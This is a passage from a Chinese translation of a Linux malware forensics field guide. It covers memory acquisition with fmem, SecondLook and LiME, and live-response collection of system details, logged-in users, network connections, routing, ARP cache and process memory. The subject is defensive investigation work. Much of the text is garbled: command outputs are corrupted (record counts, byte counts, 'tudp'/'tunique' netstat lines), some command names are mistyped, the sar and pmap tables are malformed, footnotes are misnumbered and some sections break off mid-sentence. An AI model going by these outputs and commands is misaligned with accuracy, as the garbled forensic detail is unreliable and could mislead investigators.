#### /media/cdrom/Linux-IR/run.sh

Module: insmod fmem al=0x0c128ed0 : OK

Device: /dev/fmem

---Memory areas: ---
reg00: base=0x00000000 (0MB), size=1024MB, count=1: write-back
reg01: base=0x00d00000 (3328MB), size=128MB, count=1: write-combining

!!! 忘记在 dd 中设置 get="count" !!!
```

```bash
#### time: dd if=/dev/fmem of=/media/IR/fmem-dump.bin bs=1024x1024 count=1152 conv=fsync; date
```

* 1152=0 records in

* 1152=0 records out

* 120799552 bytes (1.2 GB) copied, 448.69 s, 2.7 MB/s

* 0.00user 14.63system 27.68elapsed 23%CPU (avgetext+0gavd 0maxresident)k

* 88inputs=2359269outputs (major+672minor)pagefaults 0swaps

* Tue 5 02:52:53 GMT 2012

图 1.15—使用 fmem 获取物理内存

- fmem 内核模块通过创建一个新设备 `/dev/fmem` 来绕过 `/dev/mem` 设备的限制，该设备提供了访问内存完整内容的，如图 1.15 所示。当无法从可移动介质运行此过程时，必须修改 `run.sh` 脚本以为模块和输出文件设置所需的路径。

- 如上述 fmem 输出所示，如果不指定内存数量，`dd` 将无限地尝试读取更高的地址，即使系统上没有物理内存。因此，使用 `dd` 的 `count` 参数指定要获取的内存是非常重要的。`count` 值是加载 fmem 模块时报告的内存空间总和（例如，在上面的示例中为 1024MB + 128MB = 1152MB）。

10 有关 `/dev/fmem` 的更多信息，请参阅 Ivor Kollar (2010)，Forensic RAM dump image-analysis, Masters Thesis, Charles University in Prague (http://hysteria.sk/~niekt0/foriana/doc/foriana.pdf)。

## Linux 系统恶意软件取证现场指南

- 另一个工具 SecondLook 为 Linux 提供了内存获取和检查能力。[11]。在默认情况下，SecondLook 尝试通过基于 Redhat 的系统（包括 Fedora 和 CentOS）上的 `/dev/crash` 驱动程序获取内存（使用 `modprobe crash` 加载）。

```bash
#### /media/cdrom/Linux-IR/insmod /media/cdrom/Linux-IR/pmad.ko
#### /media/cdrom/Linux-IR/secondlook-memdump /media/IR/memdump.bin
/dev/pmad

Second Look (r) Release 3.1.1 - 物理内存获取脚本

Copyright (c) 2010-2012 Raytheon Pikewersk Corporation
保留所有权利

正在从 /proc/iomem 读取基于 RAM 的物理地址范围...
正在导出页面 16 到 158...
执行: /media/cdrom/Linux-IR/dc3dd if="/dev/pmad" of="media/IR/memdump-pmad.bin" bs=4096 skip=16 count=143
143+0 records
143+0 records out
585728 bytes (586 KB) copied, 0.00257154 s, 228 MB/s
正在导出页面 256 到 2618...
执行: /media/cdrom/Linux-IR/dc3dd if="/dev/pmad" of="media/IR/memdump-pad.bin" bs=4096 skip=256 count=2616<cut before>
```

**图 1.16**: 使用 SecondLook 物理内存获取脚本

- 此外，SecondLook 提供了一个名为 pmad 的物理内存访问驱动程序来获取内存，如图 [1.16](https://example.com/figure1-16) 所示。为了避免在受损系统上运行 `/bin/dd`，有必要编辑 `secondlook-memdump` 脚本以调用受信任的 `dd` 版本。

- 图 16 中的操作显示在获取完整页面之前加载了自定义 pmad 内核模块（大小为 4096 字节），完全包含在 `/proc/iomem` 中与物理 RAM 关联。有关 SecondLook 的更多信息，请访问 http://secondlookforensics.com/

## 恶意软件事件响应

为了补偿原始系统中 RAM 物理寻址的差距，来自 pmad 的稀疏或“padded”格式输出确保了文件中的物理位置与原始系统的物理地址相同。

- 开发了一种名为 LiME 的通用内存获取工具，以支持更广泛的 Linux 系统（运行 Android 的系统）。使用指定的输出路径加载模块进行内存获取如图 1.17 所示。

```bash
#### /media/cdrom/Linux-IR/insmod /media/cdrom/Linux-IR/lime.ko /media/IR/memdump-lime.padded
```

图 1.17—使用 LiME 从以填充格式输出的 USB 设备获取物理内存

- LiME 的输出文件对应 `/proc/iomem` 文件中的“System RAM”条目。输出有格式：raw、padded 和 linear，其中 padded 输出与 SecondLook 相同被大多数 Linux 工具接受。LiME 将信息存储在头文件中，消除了填充的需求且文件较小。

### 远程内存分析

在恶意软件事件中，最好在多个 Linux 系统上寻找恶意代码迹象。一种方法是使用响应（后文描述）结合 Volatility 工具（第 2 章讨论）查看远程系统内存上的篡改迹象。另一种方法是使用 SecondLook 企业版，它具有远程检查能力。SecondLook 的命令行或 GUI 可用于从运行 pmad 内核模块的远程系统内存中提取信息。

用法：`secondlook-cli -a -t secondlook@alinforensics.com`。

Volatility 和 SecondLook 查找恶意代码的详细范围见第 2 章。

### 收集目标系统详情

- 系统详情为现场响应和事后取证过程、建立调查时间线以及在日志和其他取证制品中识别目标系统提供了上下文。有关 LiME 的更多信息，请访问 http://code.google.com/p/lime-forensics/

## Linux 系统恶意软件取证现场指南

获取以下目标系统详情：

- 系统时间

- 系统标识

- 网络配置

- 系统运行时间

- 系统环境

- 系统状态

### 系统时间

在从目标系统获取内存镜像后，在进行现场响应期间应该收集的首要项目是系统时间。这些信息将作为调查时间线的基础——为系统分析提供上下文并记录检查过程。

- 在 Linux 系统上运行静态编译的 `date` 命令将显示时钟设置，包括时区，如图 1.18 所示。

```bash
#### /media/cdrom/Linux-IR/date
Wed Feb 20 19:44:23 EST 2013
```

图 1.18—使用 `date` 命令收集系统时间

在记录目标系统的时间后，将其与可靠的时间源进行比较以验证信息的准确性。识别并记录任何差异，以便与在系统中发现的其它制品的时间戳进行比较。

### 系统标识

除了收集系统时间外，在启动现场响应检查之前，从目标主机尽可能收集系统标识和状态信息，包括：

- 物理标识——记录序列号、品牌、型号以及任何唯一标识系统的其他物理属性，并为收集的信息提供上下文。

- 主机名——使用 `hostname` 命令记录系统名称。拥有目标主机名对于区分本地与远程系统的数据（如日志和配置文件中的条目，图 1.19）非常有用。

```bash
#### /media/cdrom/Linux-IR/hostname
victim3.<domain>.com
```

图 1.19—使用 `hostname` 命令

-：在识别目标系统主机名时，使用 `whoami`、`logname` 和 `id` 命令确定系统上的当前有效用户（图 1.20 和 1.21）。

```bash
#### /media/cdrom/Linux-IR/whoami
Bentley
```

图 1.20—使用 `whoami` 命令

```bash
#### /media/cdrom/Linux-IR/logname
Bentley
```

图 1.21—使用 `logname` 命令

- `id` 命令提供了有关当前用户的更多详细信息，包括 uid、gid 以及用户所属的组，如图 1.22 所示。

```bash
#### /media/cdrom/Linux-IR/id
uid=1000(bentley) gid=1000(bentley)
groups=1000(bentley), 4 (adm), 20 (dialout), 24 (cdrom), 46 (plugdev),
111 (lpadmin), 119 (admin), 122 (sambashare)
```

图 1.22—使用 `id` 命令收集用户和组信息

### 网络配置

- 在记录目标系统的配置时，留意异常项。

- 寻找在没有未使用 VPN 的系统上配置的虚拟专用网络（VPN）适配器。

- 判断目标系统的网卡是否处于**混杂模式**，这通常表示正在运行嗅探器。

- 使用 `ifconfig` 记录目标系统网卡的 IP 地址和硬件地址，提供了调查文本，用于分析日志和配置文件，如图 1.23 所示。

```
#### /media/cdrom/Linux-IR/ifconfig -a
eth0 Link encap=Ethernet HWaddr 00:0C:29:5C:12:58
 inet addr=172.16.215.229 Bcast=172.16.215.255
 Mask:255.255.255.0
 UP BROADCAST RUNNING PROMIS MULTICAST MTU:1500 frame:0
 RX packets:16009 errors:0 dropped:0 overflows:0 carrier:0
 TX packets:591682 errors:0 dropped:0 overflows:0 carrier:0
 collisions:0 txquelen:0
 Interrupt:10 address:0x2000
nlo Link encap=Local Loopback
 inet addr=127.0.0.1 Mask:255.0.0.0
 UP LOOPBACK RUNNING MTU:16436 Metric:1 frame:0
 RX packets:10 errors:0 dropped:0 overflows:0 carrier:0
 TX packets:10 errors:0 dropped:0 overflows:0 carrier:0
 collisions:0 txquelen:0
```

图 1.23—使用 `ifconfig` 记录目标系统的网络配置

- 上述 `ifconfig` 输出中存在“PROMISC”表示网卡已被嗅探器置于混杂模式（promiscuous mode）。

- 如果正在运行嗅探器，请使用 `ls` 命令定位嗅探器日志，并如本章后文描述的那样，检查日志以寻找其他被攻破账户和计算机的迹象。

## 系统运行时间

使用 `uptime` 命令确定目标系统已运行多久（即系统运行时间）。

- 确定系统运行时间可以帮助数字调查人员了解系统最后重启的时间。

- `uptime` 命令还显示了系统在启动期间的忙程度。这些信息在检查系统活动（包括运行中的进程）时非常有用。

- 了解目标系统在安装恶意软件后尚未重启，这一点非常重要，它会促使数字调查人员更仔细地寻找内存中被删除的进程和其他可能被他人破坏的信息。

- 要确定系统运行时间，请从你的可信工具包中调用 `uptime` 工具，如图 1.24 所示。

```
#### /media/cdrom/Linux-IR/uptime
8:54pm up 1 day 6:20, 1 user, load average: 0.06, 0.43, 0.41
```

图 1.24—使用 `uptime` 命令查询系统

## 系统环境

在对 Linux 系统进行调查时，记录目标系统的通用细节（包括操作系统版本、内核版本、主目录和桌面环境）是有帮助的。

- 系统环境信息可能揭示该系统已过时，因此容易受到某些攻击。

-通过 `uname -a` 命令获取一组简要的系统环境描述符（图 1.25）；`-a` 标志表示“所有信息”，显示内容：

  - 内核名称

  - 网络节点主机名

  - 内核发布版本

  - 内核版本

  - 机器硬件名称

  - 处理器类型

  - 硬件平台

  - 操作系统

- 使用 `printenv` 和 `env` 命令可以获取目标系统环境和状态的细粒度快照，包含上述部分细节（图 1.26）。

```
/media/cdrom/Linux-IR/uname -a
Linux ubuntu 2.6.35-22-generic #33-Ubuntu Sun Sep 19 20:34:50 UTC 2010 i686 GNU/Linux
```

> 图 1.25—使用 `uname -a` 命令收集系统环境信息


#### media/cdrom/Linux-IR/printenv
<cut for brevity>
`PATH`=`/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/bin:/sbin:/bin`
`PWD`=`/home/bentley`
`GDM_KEYBOARD_LAYOUT`=`us`
`LANG`=`en_UTF-8`
`GNOME_KEYING_PID`=`2355`
`GDM_LANG`=`en_UTF_8`
`GDSMSSESSION`=`gnome`
`SPEECH_PORT`=`7560`
`SHLVL`=`1`
`HOME`=`/home/bentley`
`GNOME_DESKTOP_SESSION_ID`=`this-is-deprecated`
`HOSTNAME`=`victim13.corp.X`
`DISPLAY`=` :0.0`
`XAUTHORITY`=`/var/run/gdm/auth-for-victim13-hErHVU/database`
=`/usr/bin/printenv`

> 图 1.26—使用 `printenv` 命令收集的系统环境信息部分

## LINUX 系统恶意软件取证现场指南

操作系统和内核的版本对于执行内存取证和其他分析任务至关重要。

- `/proc/version` 文件中包含带有额外细节的额外信息（例如编译器版本），如图 1.27 所示。

```
#/media/cdrom/Linux-IR/cat /proc/version
Linux version 2.6.35-22-generic (buildd@rothera) (gcc
version 4.4.5 (Ubuntu-Linaro 4.4.0-14ubuntu4)) #33-Ubuntu
SMP Sep 19 20:34:50 UTC 2010
```

图 1.27—从 `/proc` 收集系统信息

## 调查考量

- `/proc` 目录下也提供了关于系统的额外信息，包括 `/proc/cpuinfo` 中的 CPU 细节以及 `/proc/cmdline` 中的内核参数。

### 系统状态

- 当启用审计时，`sar` 命令提供系统上执行命令的摘要。例如，图 1.28 的 `sar` 命令输出包含了可能未经授权的或与后门相关的条目。

| Time | ... | ... | ... | ... |

| :--- | :--- | :--- | :--- | :--- |

| 1421 | 1082.14 | 2.72 | 0 | 1119k |

| 17 | 44.22 | 1.74 | 0 | 1341k |

| 14 | 7.93 | 0.65 | 0 | 523k |

| 28 | 27.38 | 0.04 | 0 | 895k |

| 137 | 274.81 | 0.00 | 0 | worker/0/1 |

| 203 | 203.87 | 0.04 | 0 | worker/0/2 |

| 133 | 203.11 | 0.03 | 0 | worker/0/3 |

| 3 | 0.38 | 0.00 | 0 | 2033k |

| 21 | 01.14 | 0.02 | 0 | 1848k |

| 7 | 4.97 | 0.01 | 0 | 1323k |

| 25 | 6.02 | 0.01 | 0 | 1097k |

| 11 | 39.54 | 0.00 | 0 | 1115k |

| 9 | 0.01 | 0.00 | 0 | 865k |

| 12 | 10.54 | 0.00 | 0 | 919k |

| 4 | 0.14 | 0.02 | 0 | 996k |

| 3 | 0.02 | 0.00 | 0 | 1039k |

| 2 | 0.02 | 0.00 | 0 | 871k |

| 4 | 0.00 | 0.00 | 0 | 1138k |

图 1.28—使用 `sar` 命令显示的审计统计

# 第1章 恶意软件事件响应

```
#### /media/cdrom/Linux-IR/sar -u -r -n DEV
Linux 2.6.38-generic (ubuntu)              06/08/2012              i686 (1 CPU)
03:50:41 PM LINUX START
03:55:01 PM CPU      user      nice      system    iowait      steal      idle
04:05:01 PM all           1.88      0.00              4.16      0.00      92.27
04:15:01 PM all           0.67      0.00              0.44      0.34      0.00      98.55
Average:
all               2.14      0.00              1.95      3.51      0.00
03:55:01 PM kmfree  kbmemused  memused  kbbuffers  kbcached  kbcommit  commit  kbactive
04:05:01 PM             56136     299876      81.93     10648     117440     117488
04:15:01 PM             165526     300380      82.00     117444     1176122 196700             71768
Average:
306.24            307171      83.92     18074     113217     112125
03:55:01 PM IFACE     rxpck/s   txpck/s   rxkB      txkb/s   rxcmp/s
txcmp/s
04:05:01 PM             0.00      0.00              0.06      0.00      0.00
04:15:01 PM eth0           5515.06     473.33      962.30     31.62      0.00
04:05:01 PM tun0           0.99      0.83              1.09      8.90      0.00
04:15:01 PM             0.00      0.08              0.01      0.01      0.00
04:05:01 PM eth0           1756.06     141.25      2542.33     8.90      0.00
04:15:01 PM             0.00      0.06              1.56      1.24      0.00
```

图 1.29—使用 `sar` 工具生成的系统活动报告

## 识别登录系统的用户

在对目标系统细节进行初步侦查后，识别本地和远程登录到目标系统的用户。

- 识别已登录的用户具有多种调查目的：

- 帮助发现任何登录到受损系统的潜在入侵者。

- 识别由于恶意代码事件而向目标系统报告情况的额外受损系统。

- 针对更具隐蔽性的内部人员恶意软件事件提供见解。

- 通过与其他发现的其他的事实进行关联，提供额外的调查背景。

- 获取有关已识别的登录目标系统的用户的以下信息：

  - 用户名

  - 起点（远程或本地）

  - 登录会话持续时间

  - 用户访问的共享、文件或其他资源

  - 用户访问的进程

  - 归属于用户的网络活动

在现场响应（live response）期间，可以使用多种工具来识别登录目标系统的用户，包括 `who`、`w` 和 `users`。这些命令通过查询 `utmp` 文件提供有关当前登录系统的账户信息。该文件包含一个活动登录会话的小型数据库，其中每个会话的用户账户、持续时间和源（控制台或远程主机名/IP 地址）信息。¹³

- 使用可信的 `who` 版本获取有关当前登录用户账户的信息，并验证每个会话是否由合法用户建立。

- 图 1.30 中的输出显示 root 账户登录在控制台/键盘上，而“eco”账户从远程位置连接。

```
#media/cdrom/Linux-IR/who
root    tty1      Feb 20 16:21
eco     Feb 20 16:24 (172.16.215.131)
```

图 1.30—使用 `who` 命令识别已登录的用户

> ¹³ 输入到“utmp”文件中的相同信息也会附加到“wtmp”数据库中，当用户注销（log out）时，“utmp”中的条目会被清除。

# 第 1 章 恶意软件事件响应

## 调查考量

- 在调查看似可疑的用户活动时，“utmp”文件可能会损坏并报告错误信息，因此应应努力确认所关注的账户是否已实际登录系统。

## 检查网络连接和活动

目标系统上的网络连接和活动可以揭示有关攻击者连接系统的关键信息，包括攻击者远程数据收集服务器的位置，以及目标系统正在向命令与控制结构发送信标（beaconing）等。

在调查可能受感染和受损的系统时，尝试获取有关目标系统网络活动的以下信息：

- 活跃网络连接

- 地址解析协议（ARP）缓存

- 内部路由表

## 调查考量

- 除了网络活动分析外，还要对目标系统上的开放端口进行深度检查，包括端口与关联进程的对应。端口检查分析将在本章稍后讨论。

- Rootkit 可以隐藏活动运行系统上的特定进程和活动网络连接。对目标系统的内存转储进行取证分析，可以发现在现场数据采集期间不可见的项目。内存取证将在第 2 章介绍。

# 活跃网络连接

数字调查人员应识别当前和最近的网络连接，以确定 (1) 攻击者是否当前连接到目标系统，(2) 目标系统上的恶意软件是否导致目标向外呼叫（或“回家”）攻击者，以加入僵尸命令与控制结构。

- 恶意代码样本（如僵尸、蠕虫和特木马）通常嵌入了指令，要求呼叫到互联网上的某个位置，无论是域名、统一资源定位符（URL）、IP 地址，或连接到任何 Web 资源以加入其他受损和“被劫持”的系统集合，并等待负责感染的攻击者的进一步指令。

- 理解恶意软件如何使用或滥用网络是调查任何恶意软件事件的重要组成部分。

# LINUX 系统恶意软件取证指南

- 原始攻击向量可能是通过网络进行的，恶意代码可能会定期连接到命令与控制主机获取指令，并可以操纵对象的网络配置。检查近期或正在进行的网络连接是否存在与恶意软件相关的活动，并检查路由和 ARP 缓存（本章稍后讨论）以获取有用信息和操纵迹象。

- 要检查当前网络连接，常用方法是使用目标系统上可信的 `netstat` 工具。`netstat` 是大多数 Linux 发行版的内置工具，用于显示与目标系统上已建立和“监听”的套接连接的信息。

- 为了获得结果的细粒度，使用 `netstat -an` 命令进行查询，并结合目标系统上连接的性质：

- 会话是否为传输控制协议（TCP）或用户数据报协议（UDP）

- 连接状态

- 已连接的外部系统的地址

- 发起网络连接的进程进程 ID (`PID`)

`netstat` 输出提供的 IP 地址可以在日志和其他存储器中用于搜索相关活动，以及目标系统上与远程主机通信的进程。

例如，在图 1.31 中，下行显示了到 IP 地址 172.16.215.131 的已建立连接：

```
#media/cdrom/Linux-IR/stat -an
Active connections (servers and established)               PID/Program name
Proto RefCnt Flags                    Local                               Foreign Address         State       Q/inode
tcp       0       0 0.0.0:32768            0.0.0.*               LISTEN     561/rcp.stat
tcp       0       0 127.0.0.1:32769            0.0.0.*               LISTEN     694/inetd
tcp       0       0 0.0.0:21               0.0.0.*               LISTEN     542/portmap
tudp       0       0 0.0.0.0:1901             0.0.0.*               468/dhclient
tudp       0       0 0.0.0.0:113              0.0.0.*               542//portmap
tudp       0       0 0.0.0.0:1024             0.0.0.*               LISTEN     680/shd
tudp       0       0 127.0.0.1:32772            0.0.0.*               LISTEN     711/sendacc
tcp       0       0 172.16.251.1:129      172.16.2.1:4790 ESTABLISHED 1879/bash
tcp       0       0 172.16.251.213:32775  172.16.2.1:5177 ESTABLISHED 5822/nc
tcp       0       0 0.0.0.0:32768            0.0.0.*               LISTEN     561/rcp.stat
Active UNIX sockets (servers and established)
Proto RefCnt Flags                    Local                                     PID/Program name
tunique 10   [ ] DGRAM                               1085 521/syslog                             /dev/log
tunique 2    [ ] ACC LISTENING                               1774/tfs                             /tmp/unix-fs/7100
tunique 2    [ ] ACC STREAM                                            /dev/gcmplt1
tunique 3    [ ] STREAM CONNECTED                               6418 1887/shd                             /dev/gcmplt1
tunique 3    [ ] DGRAM                               7227 746/cron
tunique 2    [ ] DGRAM                               1681 727/clientqueue
tunique 2    [ ] DGRAM                               1637 717/sendmail:acc
tunique 2    [ ] DGRAM                               1972 644/ainetd
tunique 2    [ ] DGRAM                               1306 462/apmd
tunique 2    [ ] DGRAM                               1145 561/rcp.stat
tunique 14   [ ] DGRAM                               1109 525/aiops
```

图 1.31—使用 `netstat -` 查询目标系统

# 第1章 恶意软件事件响应

连接已建立而非超时，表示连接是激活的。

- 也可以使用 `ss` 命令列出连接，如图1.32 所示。

```
#### /media/cdrom/Linux-IR/ss
State Recv-Q Send-Q Local Address:Port Peer Address:Port
ESTAB 0 0 192.168.110.140:47298 192.168.15.6:ssh
CLOSE-WAIT 1 0 192.168.110.132:49609 91.189.94.25:www
```

**图 1.32—使用 `ss` 命令在 Linux 系统上连接列表**

## 检查路由表

- 某些恶意软件会修改目标系统的路由表，以重定向或中断网络流量。此外，盗者可能会在受感染的主机与远程服务器之间建立专用 VPN 连接，以便通过加密隧道传输被盗数据，网络监控系统无法明文观察到这些流量。

- 修改路由表的目的是破坏目标主机和网络上的安全机制，或者通过将网络流量重定向到另一台计算机来监控目标系统的网络流量。

- 例如，如果目标系统被配置为从恶意服务器自动下载安全更新，修改路由表将请求导向恶意计算机可能会导致恶意软件被下载并安装¹¹⁴

- 因此，使用 `netstat -nr` 命令记录路由表是有用的，如图1.33 所示。该路由表包含与名为 "`tun0`" 的接口相关的条目，这表明 VPN 连接已激活，并正在通过远程 VPN 服务器将流量导向 172.16.13.0 网络。


¹⁴ DNSGeocoder 通过更改计算机的 DNS 服务器设置并将合法 DNS 服务器替换为攻击者运行的恶意 DNS 服务器，导致受感染计算机使用这些 DNS 服务器。该恶意软件尝试访问运行动态主机配置协议（DHCP）的网络设备（如路由器或网关），并同样将路由表和 DNS 设置指向恶意的 DNS 服务器（http://www.pcworld.com/article/258955/dnschanger_malware_whats_next.html）。

# Linux 系统恶意软件取证现场指南

```
Kernel IP routing table
Destination    Gateway      Genmask        Flags  MSS Window itrt
10.8.0.5       0.0.0.0       255.255.255.255 UN      0 0     tun0
10.8.0.0       10.8.0.5      255.255.255.0  UG      0 0     tun0
192.168.110.0   0.0.0.0       255.255.255.0  U       0 0 
172.16.13.0    10.8.0.5      255.255.255.0  UG      0 0     tun0
0.0.0.0        192.168.110.2  0.0.0.0         UG      0 0     eth0
```

图 1.33—使用 `netstat -command` 在 Linux 系统上的路由表

## 地址解析协议 (ARP) 缓存

- ARP 缓存维护计算机之间当前和最近连接的信息。在某些情况下，IP 地址可能不足以确定网络上的哪台物理计算机连接到了受感染系统，因此必须使用硬件地址作为存储在 ARP 表中的介质控制（MAC）地址。

- `arp` 命令显示 Linux 系统上的 ARP 缓存。

```
Address         HWtype         HAddress            Flags Mask
172.16.215.1     ether          00:50:56:C0:00:01   C
eth0
172.16.215.131  ether          00:0C:29:0D:BE:BC   C
eth0
```

图 1.34—使用 `arp -command` 在 Linux 系统上的 ARP 缓存

- 某些恶意软件会告警或“毒化” ARP 缓存中的这些 IP-MAC 地址关系，以将所有网络流量重定向到局域网上另一台捕获流量的计算机。Cain and Abel,⁵ Etercap,¹⁶ DSniff 的 Arspoof¹⁷ 实现了这种技术，该技术用于不允许混杂模式监听的交换网络。

⁵ 有关 Cain and Abel 的更多信息，请访问 http://www.oxid.it/cain.html。

¹⁶ 有关 Etercap 的更多信息，请访问 http://ettercap.sourceforge.net/.

¹⁷ 有关 DSniff 的更多信息，请访问 http://monkey.org/~dugsong/dsniff/html。

## 收集进程信息

收集运行在目标系统上的进程信息对于恶意软件代码响应取证至关重要。一旦执行，恶意软件样本——如蠕虫、病毒等……

发现了一个（GNU/Linux 键记录程序）18。使用受信任的 `whereis` 和 `which` 工具可以显示与关联执行文件的系统路径，如图 1.37 所示。

```
logkeys: /usr/local/bin/logkeys
```

```
/media/cdrom/Linux-IR/which -a logkeys
/usr/local/bin/logkeys
```

图 1.37-- 使用 `whereis` 和 `which` 命令定位可疑二进制文件

## 调查考量

- 由于 `whereis` 和 `which` 命令不依赖于正在运行的程序，它们也用于在进程停止运行或意外被杀死——甚至是攻击者为了阻止检测和调查而故意杀死后的可疑执行文件的系统路径。

- 注意，`which` 只在 `PATH` 环境变量中搜索。因此，攻击者可能会修改 `PATH` 环境变量，以便在使用 `which` 命令搜索时排除某些目录。

- 识别与进程相关的执行文件系统路径的替代方法是检查对应 PID 的 `/proc` 文件系统的上下文，位于 `/proc/<PID>/cwd`（"cwd" 符号链接指向进程当前的工作目录）和 `/proc/<PID>/exe`（"exe" 符号链接指向完整的执行文件）。本章稍后将详细讨论从 `/proc` 获取易失性数据。

### 进程到用户的映射

- 在识别启动进程的执行程序过程中，确定进程的所有者以获取与进程相关的用户和安全上下文。与运行进程相关的异常系统用户或提权的用户权限通常预示着恶意进程。

- 使用带有 `aux` 选项的 `ps` 命令识别运行进程的程序名称、PID、内存占用、程序状态、命令行参数以及关联用户名。

18 http://code.google.com/p/logkeys.

## 调查考量

- 使用以下命令 `ps -U <username> -u <username> u` 查询与用户名相关的所有进程，获取有关特定目标用户（真实用户和有效用户）的粒度上下文。

- 同样，由于 root 权限为攻击者提供了利用系统的最大能力，务必查询以 root 身份运行的进程：`ps -U root -u root u`

- 获取可疑进程所有者更深层上下文的替代命令是：`ps -eo pid,user,group,args,etime,start |grep '<suspect pid>'`

### 子进程

- 恶意软件在执行时会产生额外的进程，即子进程。在现场响应期间识别出潜在的敌对进程时，分析这些进程以识别父子进程的层级结构。

- 使用 `ps` 和/或 `tree` 工具查询系统，以获取结构化和层次化的进程“树”视图。例如，`tree` 是大多数 Linux 发行版的原生工具，为数字调查人员提供了一个稳健的文本图形化进程树。下表提供了实现不同级别进程树的命令选项。

| 工具 | 命令 | 详情 |
|---|---|---|
| `ps` | `ps -ejH` | 显示 PID、进程组 ID (PGID)、会话 ID (SID)、控制终端 (TTY)、相应进程运行的时间 (TIME) 以及关联的命令行参数 (CMD)。 |
| | `ps axjf` | 显示 PPID（父进程）、PID、PGID、SID、TTY、与控制 TTY 进程组关联的进程组 ID (TPGID)、进程状态 (STAT)、用户 ID (UID)、TIME 和命令行参数 (COMMAND)。 |
| | `ps aux --forest` | 显示用户 ID (USER)、PID、CPU 使用率 (%CPU)、内存占用 (MEM)、虚拟内存大小 (VSZ)、驻内存大小 (RSS)、TTY、进程状态 (STAT)、进程启动/日期 (START)、TIME 和 COMMAND。 |
| `ptree` | `ptree -a` | 显示命令行参数。 |
| | `ptree -al` | 使用长行（不截断）显示命令行参数。 |
| | `ptree -ah` | 显示命令行参数并高亮每个当前进程及其祖先。 |

# Linux 系统恶意软件取证现场指南

## 调查考量

- 识别目标进程相关命令行参数的替代方法是检查进程 PID 的 `/proc` 文件系统内容，位于 `/proc/<PID>/cmdline`。本章稍后将详细讨论从 `/proc` 获取易失性数据。

### 调用的库：运行进程加载的依赖项

动态链接的执行程序依赖共享库才能成功运行。在 Linux 程序中，这些依赖通常是执行期间从操作系统导入的共享库。识别并理解可疑进程调用的库可能定义该进程的性质和目的。

- 查看运行进程库的极佳工具是 `pmap`（大多数 Linux 发行版原生），它不仅能识别进程调用的模块，还揭示了相应库加载的内存偏移。例如，如图 1.38 所示，`pmap` 识别了 `logkeys`（一个在目标系统秘密执行的键记录器）调用的库。

### 命令行参数

在系统运行时，确定用于启动运行进程的命令行指令（如果有）。如果已经识别出恶意进程，或者寻求更多关于程序如何运行的信息，识别命令行参数特别有用。

- 可以通过多种不同的命令查询系统收集目标进程相关的命令行参数，包括 `ps -e` 和 `ps aux ww`（`ww` 启用无限宽度，以便捕获长行参数）。

## 在现场系统中保留内存

在记录并记录敌对执行程序后，捕获单个进程内存以便分析。除了获取系统内存内存外，收集可疑进程内存将极大减少需要解析的数据。调查人员可以使用额外工具：

```
/media/cdrom/Linux-IR/pmap -d 7840
```

| Address | Kbytes Mode | Mapping |
|---|---|---|
| 7840 | u | 0000000000000000 008:0001 | libstdc++.so.1 |
| 011000 | 892 r | 0000000000000000 008:0001 | libstdc++.so.1 |

图 1-38 使用 `pmap` 命令对运行进程进行完整内存分析的列表。

## Linux 系统恶意软件取证指南

本章将重点介绍 `pcat`，这是一个在“法医工具箱”（The Coroner's Toolkit, TCT）中常用的应急响应工具¹。`pcat` 为调查人员提供了以下选项（图 1.39）。

```
pcat [-H] [-m datafile] [-v processid]
```

图 1.39——使用 `pcat` 命令获取进程（由 PID 指定）的内存的命令行用法

- 1.40 展示了在被 root 权限攻破的系统上使用可信版本的 `pcat`，以尝试捕获恶意软件派生的后门服务器的信息。

```
/media/cdrom/Linux-IR/pcat -v 165 > /media/evidence/proc
entry: 0x80480000 0x80760000
entry: 0x80760000 0x80790000
```

图 1.40——使用 `pcat` 命令获取的特定进程的内存内容

¹有关关于“法医工具箱”的更多信息，请访问 http://www.porcupine.org/forensics/tct.html。

## 第 1 章 | 恶意软件应急响应

- 由于 `pcat` 会保留进程内存，它会显示正在复制的每个内存区域的位置，显示非连续区域之间的间隙。默认情况下，`pcat` 不会在捕获的进程内存中保留这些间隙，如果区域是连续的，它会简单地将所有区域合并到一个文件中。

## 调查考虑

- 在应急响应期间，进程内存的采集可以使用 TCT 中的 `grave-robber`² 实现自动化。

- 特别是，`grave-robber` 自动化了易失数据的保存，并可以配置为收集各种文件，对所有保存的数据生成摘要摘要以记录其完整性。然而，必须在被攻破的系统上挂载包含 TCT 的独立驱动器或计算机。

- 可以指令该工具使用以下命令通过 `pcat` 收集所有运行进程的内存（图 1.41）。

```
/media/cdrom/Linux-IR/grave-robber -p -d /mnt/evidence
```

图 1.41——使用 `grave-robber` 工具获取的所有运行进程的内容

- 在上述命令中添加 `-P` 选项也会保留 `ps` 和 `lsof` 的输出，以捕有关运行进程的其他信息，并创建关联执行文件的副本。

- 请记住，`pcat` 与任何在现场系统上运行的工具一样，可能会受到其他进程的阻碍和恶意代码的破坏，正如 Mariusz Burdach 在 2005 年的白皮书《物理内存数字取证》² 中所示。

### 在系统状态和产物的关联上下文中检查运行中的进程

进程活动应该在现场系统数字犯罪现场的整体范围内进行检查。

为了对可疑进程（们）获得全局视角，请确保检查它如何与整个系统状态以及从系统中收集的其他产物相关联。


- 其他易失数据产物（如打开的文件和网络套字字可能会提供关于进程性质和目的更清晰的描述。

²有关 `grave-robber` 的更多信息，请访问 http://manpages.ubuntu.com/manpages/natty/grave-robber.1.html。

¹ http://forensic.security.net/pdf/digital_forensics_of_physical_memory.pdf

## Linux 系统恶意软件取证指南

- 网络产物可能会揭示此类信息，例如...

### 易失数据在 /proc

- `/proc` 系统是易失数据的虚拟表示，其本身也是易失的。创建目标系统的法医镜像不会捕获 proc 系统引引的易失数据。因此，获取这些数据的最有效方法...

- `/proc` 目录中的易失数据²

有关 rootkit 的详细信息见第 2 章和第 6 章。

³有关 rootkit 的更多信息，请访问 http://packetstorm.org/files/343。

## 第 1 章 | 应急响应

图 1.42——`/proc/<pid>` 目录中的项目

```
/media/cdrom/Linux-IR -ls /proc/5723
total 0
dr-xr-xr-x 55 root root 2008-02-20 11:22 . .
-r----r-- 1 root root 2008-02-20 18:06 cmdline
lrwxrwxrwx 1 root root 2008-02-20 18:06 cwd -> /dev/tty
-r----r-- 1 root root 2008-02-20 18:06 environ
lrwxrwxrwx 1 root root 2008-02-20 18:06 exe -> /dev/pts
dr-x---- 2 root root 2008-02-20 18:06 fd
-r----r-- 1 root root 2008-02-20 18:06 maps
-r----r-- 1 root root 2008-02-20 18:06 counts
lrwxrwxrwx 1 root root 2008-02-20 18:06 root -> /
-r----r-- 1 root root 2008-02-20 18:06 stat
-r----r-- 1 root root 2008-02-20 18:06 statm
